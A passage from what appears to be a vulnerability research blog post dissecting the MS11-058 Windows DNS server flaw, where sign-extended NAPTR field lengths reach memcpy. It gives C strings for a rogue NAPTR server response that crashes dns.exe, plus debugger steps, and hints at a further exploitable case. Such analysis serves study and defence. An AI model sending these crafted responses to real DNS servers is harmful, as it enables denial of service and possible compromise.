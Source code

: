 So what have we learned? The vulnerable call to movsx happens three times - on the one-byte size values of flags, service, and regex. 

<h2>Let's break something!</h2>
All right, now that we know what's going on, this should be pretty easy to break! Yay! Let's try sending it a string that's over 0x80 bytes long:
<pre>
        <span class="Type">char</span> *flags   = <span class="Constant">&quot;AAAAAAAAAAAAAAAA&quot;</span>
                        <span class="Constant">&quot;AAAAAAAAAAAAAAAA&quot;</span>
                        <span class="Constant">&quot;AAAAAAAAAAAAAAAA&quot;</span>
                        <span class="Constant">&quot;AAAAAAAAAAAAAAAA&quot;</span>
                        <span class="Constant">&quot;AAAAAAAAAAAAAAAA&quot;</span>
                        <span class="Constant">&quot;AAAAAAAAAAAAAAAA&quot;</span>
                        <span class="Constant">&quot;AAAAAAAAAAAAAAAA&quot;</span>
                        <span class="Constant">&quot;AAAAAAAAAAAAAAAA&quot;</span>
                        <span class="Constant">&quot;AAAAAAAAAAAAAAAA&quot;</span>;
        <span class="Type">char</span> *service  = <span class="Constant">&quot;service&quot;</span>;
        <span class="Type">char</span> *regex   = <span class="Constant">&quot;regex&quot;</span>;
        <span class="Type">char</span> *replace = <span class="Constant">&quot;my.test.com&quot;</span>;

</pre>

Then compile it, start the service again, and send our NAPTR lookup with dig, exactly as before. Don't forget to clear your breakpoints in Windbg, too, using 'bc *' (breakpoint clear, all). 

After the lookup, the dns.exe service should crash:
<img src='http://www.skullsecurity.org/blogdata/ms11-058-22-crash.png'>

Woohoo! It crashed in a 'rep movs' call, which is in memcpy(). No surprise there, since we were expecting to pass a huge integer (0x90 became 0xFFFFFF90, which is around 4.2 billion) to a memcpy function. 

If we check out edi (the destination of the copy), we'll find it's unallocated memory, which is what caused the crash. If we check out ecx, the size of the copy, we'll see that it's 0x3fffff6e - way too big:
<img src='http://www.skullsecurity.org/blogdata/ms11-058-23-crash-reason.png'> 

Restart the DNS service, re-attach the debugger, and let's move on to something interesting... 

<h2>The good part</h2>
Now we can crash the process. Kinda cool, but whatever. This is as far as others investigating this issue seemed to go. But, they missed something very important:
<img src='http://www.skullsecurity.org/blogdata/ms11-058-24-plus-one.png'>

See there? Line 0x00ed8b3b? lea eax, [edi + 1]. edi is the size, and eax is the value passed to memcpy. See what's happening? It's adding 1 to the size! That means that if we pass a size of 0xFF ("-1" represented as one byte), it'll get extended to 0xFFFFFFFF ("-1" represented as 4 bytes), and then, on that line, eax becomes -1 + 1, or 0. Then the memcpy copies 0 bytes. 

That's great, but what's that mean?

Let's reconfigure out NAPTR server again to return exactly 0xFF bytes:
<pre>
        <span class="Type">char</span> *flags   = <span class="Constant">&quot;QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ&quot;</span>
                        <span class="Constant">&quot;QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ&quot;</span>
                        <span class="Constant">&quot;QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ&quot;</span>
                        <span class="Constant">&quot;QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ&quot;</span>
                        <span class="Constant">&quot;QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ&quot;</span>
                        <span class="Constant">&quot;QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ&quot;</span>
                        <span class="Constant">&quot;QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ&quot;</span>
                        <span class="Constant">&quot;QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ&quot;</span>;
        <span class="Type">char</span> *service  = <span class="Constant">&quot;service&quot;</span>;
        <span class="Type">char</span> *regex   = <span class="Constant">&quot;regex&quot;</span>;
        <span class="Type">char</span> *replace = <span class="Constant">&quot;my.test.com&quot;</span>;
